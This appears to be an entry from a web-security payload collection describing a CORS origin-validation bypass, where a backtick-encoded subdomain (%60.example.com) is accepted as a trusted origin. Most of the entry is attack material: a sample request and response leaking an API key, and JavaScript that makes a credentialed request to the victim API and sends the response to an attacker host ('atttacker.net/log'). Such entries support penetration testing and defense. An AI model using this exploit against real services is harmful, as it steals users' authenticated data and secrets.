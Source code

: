 # Backtick Bypass

## Description
The origin verification is flawed and can be bypassed using a backtick (`).

**Severity**: High

## Exploit 
Set the origin header to `%60.example.com`

### Example
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://%60.example.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://%60.example.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `%60.example.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
